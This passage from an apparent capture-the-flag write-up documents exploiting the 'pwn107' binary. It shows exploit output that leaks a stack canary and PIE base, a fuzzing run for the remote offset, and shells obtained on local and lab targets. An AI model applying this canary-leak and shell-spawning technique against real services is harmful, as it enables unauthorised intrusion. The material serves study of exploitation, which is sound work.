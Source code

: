 Running it locally works

```
└─$ python3 exploit.py
[+] Starting local process './pwn107.pwn107': pid 180823
[*] Canary address: 0xdf4535f29136bb00
[*] Leaked Pie address: 0x555555400992
[*] Piebase address: 0x555555400000
[*] Switching to interactive mode


[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩💻 - We miss you!😢
This your last streak back, don't do this mistake again
$ ls -al
total 36
drwxr-xr-x  2 mark mark  4096 Feb 17 13:17 .
drwxr-xr-x 10 mark mark  4096 Feb 16 17:27 ..
-rw-r--r--  1 mark mark  1700 Feb 17 13:16 exploit.py
-rw-r--r--  1 mark mark  1403 Feb 17 03:13 fuzz.py
-rw-------  1 mark mark   453 Feb 16 17:33 .gdb_history
-rwxr-xr-x  1 mark mark 12848 Feb 15 22:17 pwn107.pwn107
$ 
```

But if we run it on the remote server it will fail the reason is because the remote pie base offset is different 

So i'll need to fuzz for the value of the remote server pie address that won't change on each process or the last offset are the same. 

Using the fuzzing script i fuzzed for values on the remote server and the offset 18 seemed to work fine

```
└─$ python3 fuzz.py REMOTE 10.10.253.82 9007
19: b'0x55c3b7697992\n'
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn107]
└─$ python3 fuzz.py REMOTE 10.10.253.82 9007
19: b'0x55be79219992\n'
```

So i'll add that to my exploit script `i.e offset 19`

Solve script available here [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn107.py)

```
└─$ python3 exploit.py REMOTE 10.10.253.82 9007 
[+] Opening connection to 10.10.253.82 on port 9007: Done
[*] Canary address: 0x6a75b56d2d5f0400
[*] Leaked Pie address: 0x55b4b919c992
[*] Piebase address: 0x55b4b919c000
[*] Switching to interactive mode

[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩💻 - We miss you!😢
This your last streak back, don't do this mistake again
$ ls -al
total 48
drwx------  3 pwn107 pwn107  4096 Feb  8  2022 .
drwxr-xr-x 12 root   root    4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn107 pwn107     9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn107 pwn107   220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn107 pwn107  3771 Apr  4  2018 .bashrc
```